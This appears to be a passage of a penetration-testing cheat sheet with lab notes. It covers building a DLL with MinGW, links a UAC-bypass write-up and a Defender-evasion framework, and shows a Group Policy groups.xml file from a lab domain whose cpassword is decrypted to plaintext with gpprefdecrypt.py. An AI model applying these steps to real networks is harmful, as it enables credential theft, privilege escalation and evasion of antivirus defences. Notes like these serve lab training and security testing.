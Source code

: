 Build the .dll
```
i686-w64-mingw32-c++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a 
```

UAC Bypass Server 2019
```
https://egre55.github.io/system-properties-uac-bypass/
```

#### ADDS stuff

Exploring domain shares and finding groups.xml
```
\\feest.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
```

```bash
cat groups.xml
```

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

```
python gpprefdecrypt.py edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPIsStilAThing2019
```

### Defender bypasses

Defender bypasses (may 2019)
```
https://github.com/Genetic-Malware/Ebowla
```

More to come. 
